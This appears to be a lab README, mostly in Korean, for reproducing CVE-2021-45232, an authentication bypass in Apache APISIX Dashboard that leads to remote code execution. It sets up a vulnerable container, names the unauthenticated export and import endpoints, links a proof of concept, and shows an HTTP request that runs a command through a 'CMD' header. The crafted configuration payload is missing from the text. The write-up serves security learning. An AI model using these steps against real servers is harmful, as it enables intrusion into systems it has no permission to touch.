

# Apache APISIX Dashboard Unauthenticated Access Leads to RCE (CVE-2021-45232)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX는 동적인 실시간 고성능 API 게이트웨이이며 Apache APISIX Dashboard는 Apache APISIX를 관리하는 데 사용되는 사용하기 쉬운 프론트엔드 인터페이스입니다.

2.10.1 이전의 Apache API 대시보드에서는 Manager API가 두 가지 프레임워크를 사용하여 프레임워크 gin을 기반으로 드롭릿을 소개하고, 모든 API와 인증 미들웨어는 프레임워크 droplet을 기반으로 개발됩니다. 그러나 프레임워크 gin의 인터페이스를 직접 사용하는 API는 /apisix/admin/migrate/export와 /apisix/admin/migrate/import 두 가지로 인증을 우회할 수 있습니다.

공격자는 인증되지 않은 API 엔드포인트 2개를 사용하여 라우터, 서비스, 스크립트 등을 포함한 임의 Apache APISIX 구성을 내보내고 가져올 수 있으며, 이로 인해 SSRF(Request Unexpected URL)가 발생하거나 임의 LUA 스크립트(RCE)가 실행됩니다.
자료:

- https://apisix.apache.org/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 취약한 환경

다음 명령을 실행하여 취약한 Apache APISIX Dashboard 2.9를 시작합니다:

```
docker compose up -d
```

그런 다음 'http://your-ip:9000/'에 접속하면 Apache APISIX Dashboard 로그인 페이지를 볼 수 있습니다.

## 익스플로잇

'/apisix/admin/migrate/export'와 '/apisix/admin/migrate/import'는 Apache APISIX 대시보드에서 제공하는 2개의 인증되지 않은 API로, Apache APISIX에 대한 구성을 내보내고 가져오기 위해 사용됩니다. 따라서 사용자가 제공하는 LUA 스크립트가 포함된 악의적인 라우터를 사용하여 크래프트 구성을 간단하게 가져올 수 있습니다:



마지막 4바이트는 이 파일의 CRC checksum이므로 자동 POC를 사용하여 [이 POC](https://github.com/wuppp/cve-2021-45232-exp) 와 같이 요청을 빌드하고 전송하는 것이 좋습니다.

악의적인 라우터를 추가한 후, 요청을 Apache APISIX(아파치 APISIX 대시보드와 다름)로 전송하여 LUA 스크립트를 트리거해야 합니다.

Apache APISIX는 다음 환경에서 포트 9080에서 수신합니다:

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```


보다시피 'CMD' 헤더의 명령어는 Apache APISIX에 의해 실행됩니다.
